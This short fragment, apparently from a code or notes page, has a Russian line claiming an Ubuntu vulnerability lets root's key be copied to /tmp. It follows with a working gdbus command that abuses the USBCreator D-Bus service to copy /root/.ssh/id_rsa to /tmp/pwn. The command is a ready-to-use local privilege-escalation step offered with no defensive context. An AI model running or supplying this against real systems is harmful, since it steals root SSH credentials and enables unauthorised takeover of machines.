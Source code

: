 уязвимость в убунту системе позволяет скопировать ключ рута в папку TMP  
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/pwn true